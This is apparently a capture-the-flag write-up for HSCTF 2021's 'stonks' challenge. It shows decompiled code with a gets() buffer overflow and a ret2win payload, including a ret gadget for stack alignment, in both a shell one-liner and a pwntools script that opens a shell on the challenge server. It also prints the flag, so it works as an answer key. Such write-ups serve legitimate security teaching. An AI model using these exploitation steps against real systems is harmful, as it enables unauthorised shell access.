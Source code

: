 ## Problem ##

## Solution ##

I practically had this one during the competition but my exploit did not work for a reason I found out afterwords: stack alignment. I actually had not encountered this issue before but it necessitates inclusion of a `ret` address in our payload.

The provided binary had a fairly simple layout. We could open the binary in Ghidra and see the `main` function:

```console
undefined8 main(void)

{
  puts("Advanced AI Stock Price Predictor");
  vuln();
  puts("Thanks for using the Advanced AI Stock Price Predictor!");
  return 0;
}
```

Then, naturally, we would take a look at `vuln`:

```console
void vuln(void)

{
  char local_28 [28];
  uint local_c;
  
  printf("Please enter the stock ticker symbol: ");
  gets(local_28);
  local_c = ai_calculate();
  printf("%s will increase by $%d today!\n",local_28,(ulong)local_c);
  return;
}
```

The other functions of interest in this challenge are `ai_calculate` and `ai_debug`:

```console
int ai_calculate(void)

{
  int iVar1;
  
  iVar1 = rand();
  return iVar1 % 0x14;
}
```

and 

```console
void ai_debug(void)

{
  system("/bin/sh");
  return;
}
```

In the `vuln` function, the use of the `gets` method is [bad](https://faq.cprogramming.com/cgi-bin/smartfaq.cgi?answer=1049157810&id=1043284351), since `gets` will read in as much data as you pass it, even if the length of that data exceeds the size of the buffer it gets passed into. In this case the buffer is 28.

While debugging in GDB I identified that it takes a string of length 40 to breach RIP (the instruction pointer). I first simply added the address of `ai_debug` to a length-40 string, thinking it would jump to `ai_debug` and execute `system("/bin/sh")`. This turned out to be incorrect due to the stack alignment issue. It was necessary to include the `ret` address of vuln prior to the start address of `ai_debug`. And with that we could execute the payload and retrieve the flag:

```console
root@osboxes:~/Documents/hsctf2021# (python -c 'from pwn import *; print "A" * 40 + p64(0x4012c2) + p64(0x401258)';cat) | nc stonks.hsc.tf 1337
== proof-of-work: disabled ==
Advanced AI Stock Price Predictor
Please enter the stock ticker symbol: AAAAAAAAAAAAAAAAAAAAAAAAAAAA will increase by $3 today!
ls
bin
boot
dev
etc
flag
home
lib
lib32
lib64
libx32
media
mnt
opt
proc
root
run
sbin
srv
sys
tmp
usr
var
cat flag
flag{to_the_moon}
```

As an extra exercise we can put this in a script:

```py
from pwn import *

HOST = 'stonks.hsc.tf'
PORT = 1337

payload = "A" * 40 
payload += p64(0x4012c2) # stack offset (i.e. ret address of vuln function)
payload += p64(0x401258) # ai_debug() address

sh = remote(HOST,PORT)
sh.recvuntil("symbol: ")
sh.sendline(payload)
sh.interactive()
```

Running it:


 ```console
 root@osboxes:~/Documents/hsctf2021# python stonks_payload.py 
[+] Opening connection to stonks.hsc.tf on port 1337: Done
[*] Switching to interactive mode
AAAAAAAAAAAAAAAAAAAAAAAAAAAA\x03will increase by $3 today!
$ cat flag
flag{to_the_moon}
```

The flag is **flag{to_the_moon}**.
